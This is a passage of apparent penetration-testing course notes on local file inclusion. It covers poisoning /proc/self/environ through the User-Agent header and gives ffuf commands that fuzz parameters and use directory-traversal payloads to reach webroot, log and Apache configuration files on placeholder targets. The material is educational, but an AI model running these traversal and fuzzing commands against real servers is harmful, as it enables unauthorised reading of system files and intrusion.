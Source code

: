     - Tip: The User-Agent header is also shown on process files under the Linux /proc/ directory. So, we can try including the /proc/self/environ or /proc/self/fd/N files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.

## Automated Scanning

- Fuzzing Parameters
    - `uf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`
- LFI wordlists
    - LFI-Jhaddix.txt
    - `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`
- Fuzzing Server Files
    - Server webroot path, server configurations file.
    - `SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt`
    - `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`
    - Server Logs/Configurations
        - `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`
    - As we can see, we do get the default webroot path and the log path. However, in this case, the log path is using a global apache variable (APACHE_LOG_DIR), which are found in another file we saw above, which is (/etc/apache2/envvars), and we can read it to find the variable values: